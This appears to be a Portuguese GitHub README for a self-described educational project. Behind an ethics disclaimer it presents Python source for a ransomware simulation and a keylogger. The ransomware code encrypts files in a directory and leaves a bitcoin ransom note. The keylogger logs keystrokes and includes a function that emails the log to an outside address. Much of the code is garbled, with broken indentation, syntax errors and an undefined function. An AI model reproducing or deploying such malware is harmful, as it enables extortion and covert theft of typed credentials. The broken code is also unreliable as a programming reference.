 # Aprendizado e Ética
Este projeto foi desenvolvido exclusivamente para fins educacionais e de pesquisa. Ele simula o comportamento de malwares como ransomware e keylogger em um ambiente controlado e seguro, com o objetivo de:
- Demonstrar técnicas básicas de criptografia e captura de entrada.
- Promover o entendimento sobre como malwares operam.
- Incentivar a reflexão sobre medidas de defesa e segurança cibernética.
⚠️ Importante:
Este código não deve ser utilizado em ambientes reais, nem com a intenção de causar danos, invadir sistemas ou violar a privacidade de terceiros. O uso indevido pode configurar crime conforme a legislação vigente.
Recomenda-se executar este projeto apenas em máquinas virtuais ou ambientes isolados (sandbox), sem conexão com redes externas ou dados sensíveis.

# Ransomware-Simulado: criar arquivos de teste, implementar um script que criptografa e descriptografa, além de gerar mensagem de “resgate”.

from cryptography.fernet import Fernet
import os

# Gerar uma chave de criptografia e salvar
key = Fernet.generate_key()
with open("chave.key", "wb") as key_file:
    key_file.write(key)

fernet = Fernet(key)

# Carregar a chave salva
def carregar_chave():
    return open("chave.key" , "rb").read()

# Criptografar um único arquivo
 def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
     with open(arquivo, "rb") as file:
    dados = file.read()

   # Encontrar arquivos para criptografar
   def encontrar_arquivos(diretorio):
        lista = []
        for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
        caminho = os.path.join(raiz, nome)
       if nome != "ransoware.py" and not nome.endswith(".key"):
        lista.append(caminho)
        return lista

  #  Mensagem de resgate 
     def criar_mensagem_resgate():
         with open("LEIA ISSO.txt", "w") as f:
      f.write("Seus arquivos foram criptografados!\n")
      f.write("Envia 3 bitcoin para o endereço XY e envie o comprovante!\n")
      f.write("Após pagamento, enviaremos a chave para você recuperar seus dados!\n")
                
  # Execução principal
    def main():
       gerar_chave()
       chave = carregar_chave()
       arquivos = encontrar_arquivos("test_files")
       for arquivo in arquivos:
       criptografar_arquivo(arquivo, chave)
       criar_mensagem_resgate()
      print("Ransoware executado!")

      if__name__== "__main__":
        main()


# Keylogger Simulado: programar captura de teclas em arquivo .txt, torná-lo mais furtivo e implementar envio automático por e-mail

from pynput import keyboard

IGNORAR = {keyboard.shift,
keyboard.Key.shift_y,
keyboard.Key.ctrl_s,
keyboard.Key.ctrl_l
keyboard.alt_f,
keyboard.Key.alt_b,
keyboard.Key.caps_lock,
keyboard.Key.cmd
 
def on_press(key):
 try:  
  # se for uma tecla "normal" (letra, número, símbolo) 
    with open(log.txt, "a", encoding="uft-8") as f:
f.write(key.char)

except.AttributeError:
    with open("log.txt", "a", encoding="utf-8) as f:
     if key == keyboard.key.space:
        f.write(" ")
         elif key == keyboard.key.enter:
         f.write("\n")
        elif key ==keyboard.key.tab:
         f.write("\t")
        elif key == keyboard.key.backspace:
         f.write(" ")
         elif key == keyboard.key.esc:
         f.write("[ESC] ")
         elif key in IGNORAR:
            pass
      else:
        f.write(f"[{key}] ")
  with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

 # Envio por e-mail

def enviar_email():
    with open("log.txt", "r") as f:
        conteudo = f.read()
    server = smtplib.SMTP("smtp.gmail.com", 777)
    server.starttls()
    server.login("pyy@gmail.com", "senha")
    server.sendmail("pyy@gmail.com", "miami@gmail.com", conteudo)
    server.quit()

 # Medidas de Prevenção
- Antivírus: Detecta e bloqueia malwares conhecidos.
- Firewall: Controla tráfego de rede suspeito.

# Boas práticas
- Atualizações regulares de software.
- Backup frequente dos dados.




